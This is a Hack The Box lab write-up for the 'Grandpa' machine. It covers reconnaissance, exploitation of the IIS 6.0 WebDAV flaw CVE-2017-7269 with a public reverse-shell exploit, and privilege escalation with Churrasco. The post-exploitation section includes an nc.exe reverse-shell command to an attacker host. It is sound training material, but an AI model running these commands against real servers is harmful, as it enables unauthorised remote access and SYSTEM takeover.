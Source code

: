 ```yaml
---
layout: single
title: Grandpa - Hack The Box
excerpt: "Grandpa is one of the simpler machines on Hack The Box, however it covers the widely-exploited CVE-2017-7269. This vulnerability is trivial to exploit and granted immediate access to thousands of IIS servers around the globe when it became public knowledge."
date: 2025-05-21
classes: wide
header:
  teaser: /img2/grandpa.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Easy
tags:
  - Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow [RCE]
  - Token Kidnapping - Churrasco [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open --min-rate 5000 -vvv -n -Pn 10.10.10.14
```

![](/img2/Pasted%20image%2020250520201054.png)

- Whatweb

```bash
whatweb http://10.10.10.14/
```

![](/img2/Pasted%20image%2020250520201221.png)

- Gobuster

![](/img2/Pasted%20image%2020250520203203.png)


## Exploitation

- Buffer Overflow

```bash
searchsploit IIS 6.0
```

![](/img2/Pasted%20image%2020250520220356.png)

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

```bash
python2 exploit.py 10.10.10.14 80 10.10.16.7 9000
```

```bash
rlwrap nc -nlvp 9000
```

## Post-exploitation

- Check user privileges

```
whoami /priv
```

![](/img2/Pasted%20image%2020250521094110.png)

- Check OS Version

```
systeminfo
```

![](/img2/Pasted%20image%2020250521105130.png)

- Copy nc and churrasco

```bash
impacket-smbserver smbFolder -smb $(pwd) -smb2support
```

https://github.com/int0x33/nc.exe/blob/master/nc.exe

```
copy \\10.10.16.7\smbFolder\nc.exe
```

https://github.com/Re4son/Churrasco/blob/master/churrasco.exe

```
copy \\10.10.16.7\smbFolder\churrasco.exe
```

- Run reverse shell as system

```
echo nc.exe 10.10.16.7 4444 -e cmd.exe > exploit.bat
```

```
churrasco.exe -d exploit.bat
```

![](/img2/Pasted%20image%2020250521105034.png)

```bash
rlwrap nc -nvlp 4444
```

![](/img2/Pasted%20image%2020250521104740.png)